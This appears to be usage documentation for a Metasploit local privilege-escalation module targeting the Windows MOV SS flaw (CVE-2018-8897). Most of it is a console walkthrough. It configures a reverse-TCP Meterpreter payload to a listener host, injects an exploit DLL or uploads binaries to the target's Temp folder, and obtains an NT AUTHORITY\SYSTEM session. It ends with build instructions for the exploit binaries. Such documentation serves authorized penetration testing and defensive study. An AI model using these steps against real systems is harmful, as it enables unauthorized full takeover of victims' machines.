 ## Description

This module exploits a MOV SS vulnerability that is specifically made against Microsoft Windows
(except for Windows XP).

Depending on the value of `USE_INJECTION` It will either inject a dll with the exploit
code into a process, or it will upload a pre-compiled exploit onto the target machine, followed
by the final payload (such as a Meterpreter) in order to gain remote code execution.

## Vulnerable Target

Please note that this module may not work with certain hypervisors (such as VMWare). You should
test it on a real machine if possible.

## Verification Steps
```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.135.111:4567
[*] Sending stage (206403 bytes) to 192.168.136.142

meterpreter > getuid
Server username: DESKTOP-QGIC71I\msfuser
meterpreter > sysinfo
Computer        : DESKTOP-QGIC71I
OS              : Windows 10 (Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/mov_ss
msf5 exploit(windows/local/mov_ss) > show options

Module options (exploit/windows/local/mov_ss):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   EXECUTE_DELAY  3                no        The number of seconds to delay before executing the exploit if USE_INJECTION=false
   EXPLOIT_NAME                    no        The filename to use for the exploit binary if USE_INJECTION=false (%RAND% by default).
   PATH                            no        Path to write binaries if if USE_INJECTION=false(%TEMP% by default).
   PAYLOAD_NAME                    no        The filename for the payload to be used on the target host if USE_INJECTION=false (%RAND%.exe by default).
   SESSION        1                yes       The session to run this module on.
   USE_INJECTION  true             yes       Use in-memory dll injection rather than exe file uploads.


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.135.111  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf5 exploit(windows/local/mov_ss) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/mov_ss) > set lhost 192.168.135.111
lhost => 192.168.135.111
msf5 exploit(windows/local/mov_ss) > set lport 4567
lport => 4567
msf5 exploit(windows/local/mov_ss) > run

[*] Started reverse TCP handler on 192.168.135.111:4567
[*] Attempting to PrivEsc on DESKTOP-QGIC71I via session ID: 1
[*] Checking target...
[*] Attempting to PrivEsc on DESKTOP-QGIC71I via session ID: 1
[*] Target looks good... reflectively injecting exploit DLL and triggering exploit!
[+] Process 4964 launched.
[*] Reflectively injecting the exploit DLL into 4964...
[*] Exploit injected. Injecting payload into 4964...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (206403 bytes) to 192.168.136.142

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.136.142 - Meterpreter session 3 closed.  Reason: User exit
msf5 exploit(windows/local/mov_ss) > set USE_INJECTION false
USE_INJECTION => false
msf5 exploit(windows/local/mov_ss) > run

[*] Started reverse TCP handler on 192.168.135.111:4567
[*] Attempting to PrivEsc on DESKTOP-QGIC71I via session ID: 1
[*] Exploit uploaded on DESKTOP-QGIC71I to C:\Users\msfuser\AppData\Local\Temp\ACLgNJAJ.exe
[*] Payload (7168 bytes) uploaded on DESKTOP-QGIC71I to C:\Users\msfuser\AppData\Local\Temp\kWDncKCjHtb.exe
[*] Running exploit C:\Users\msfuser\AppData\Local\Temp\ACLgNJAJ.exe with payload C:\Users\msfuser\AppData\Local\Temp\kWDncKCjHtb.exe
[*] Sending stage (206403 bytes) to 192.168.136.142
^C[-] Exploit failed: Interrupt
msf5 exploit(windows/local/mov_ss) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                                Connection
  --  ----  ----                     -----------                                ----------
  1         meterpreter x64/windows  DESKTOP-QGIC71I\msfuser @ DESKTOP-QGIC71I  192.168.135.111:4567 -> 192.168.136.142:49696 (192.168.136.142)
  4         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DESKTOP-QGIC71I      192.168.135.111:4567 -> 192.168.136.142:49699 (192.168.136.142)

msf5 exploit(windows/local/mov_ss) > exit
```

## Build Instructions
For both the dll and exe, use Visual studio solutions found in
./external/source/exploits/cve-2018-8897
then copy the resulting binaries to
./data/exploits/cve-2018-8897

